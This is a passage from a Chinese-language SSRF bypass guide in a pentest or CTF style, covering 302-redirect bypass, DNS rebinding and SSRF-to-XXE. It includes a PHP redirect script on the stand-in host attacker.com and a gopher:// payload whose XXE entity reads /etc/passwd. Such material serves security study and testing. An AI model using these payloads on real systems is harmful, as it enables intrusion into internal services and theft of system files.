 
### 6. 302 重定向绕过 ↪️

**核心原理：**

如果易受 SSRF 攻击的应用程序遵循 HTTP 重定向（如 301 或 302），您可以在攻击者控制的公共服务器上托管一个脚本。当易受攻击的应用程序通过 SSRF 向此公共服务器发出请求时，您的脚本会发出一个重定向（例如 HTTP 302）到内部 IP 地址（如 `127.0.0.1` 或内部 RFC1918 地址）。

**执行流程：**

1.  攻击者在 `http://attacker.com/redirect.php` 上托管一个脚本。
2.  `redirect.php` 包含类似以下代码：`<?php header("Location: http://127.0.0.1/admin"); ?>`
3.  攻击者使用 `http://attacker.com/redirect.php` 触发 SSRF。
4.  易受攻击的服务器请求 `http://attacker.com/redirect.php`。
5.  `attacker.com` 响应 `302 Found` 和 `Location: http://127.0.0.1/admin`。
6.  如果易受攻击的服务器遵循重定向，它随后将向 `http://127.0.0.1/admin` 发出请求，从而绕过针对内部 IP 的直接过滤器。

---

### 7. DNS 重绑定绕过 🔄

**核心原理：**

DNS 重绑定利用 DNS 记录的生存时间 (TTL) 值。攻击者控制一个 DNS 名称，并为其配置一个非常短的 TTL。

**执行流程：**

1.  攻击者注册一个域名 (例如，`attacker-rebind.com`)。
2.  攻击者为其 `attacker-rebind.com` 的 DNS 服务器配置两条 (或更多) A 记录：
    * 一条指向**外部 IP** 地址 (例如，攻击者的服务器)。
    * 一条指向**目标内部 IP** 地址 (例如，`127.0.0.1`)。
    * 这些记录的 TTL 设置为一个非常低的值 (例如，1 秒)。
3.  **第一次请求：** 易受攻击的应用程序解析 `attacker-rebind.com`。DNS 服务器返回**外部 IP**。应用程序可能会执行一些检查 (例如，它是否是公共 IP？) 并缓存此结果。
4.  **第二次请求 (或 TTL 过期后)：** 应用程序再次向 `attacker-rebind.com` 发出请求。由于 TTL 非常短，缓存的 DNS 条目可能已过期，从而强制进行新的 DNS 查找。这一次，攻击者的 DNS 服务器响应**内部 IP** (`127.0.0.1`)。
5.  应用程序现在认为 `attacker-rebind.com` 解析为 `127.0.0.1`，因此向内部 IP 发出请求，绕过了基于 IP 的 SSRF 过滤器。

**查找服务：** 存在许多公共的“DNS 重绑定”服务，或者您可以设置自己的服务。

---

### 8. SSRF 到 XXE (XML 外部实体注入) 利用 📄

**核心原理：**

如果内部服务处理 XML 并且容易受到 XXE 攻击，您可以使用 SSRF (通常通过 `gopher://` 或 `http://` POST) 向该内部服务发送恶意的 XML 载荷，从而触发 XXE。

**载荷构造 (通过 Gopher POST)：**

目标是一个接受 XML 的内部端点 `/flag.php`。

```
gopher://<内部XXE服务IP>:<端口>/_POST /flag.php HTTP/1.1%0d%0AHost: <内部XXE服务IP>%0d%0AContent-Type: application/xml;charset=utf-8%0d%0AContent-Length: <XML载荷长度>%0d%0A%0d%0A<!DOCTYPE root [<!ENTITY % xxe SYSTEM "file:///etc/passwd">]><user><username>&xxe;</username><password>&xxe;</password></user>
```
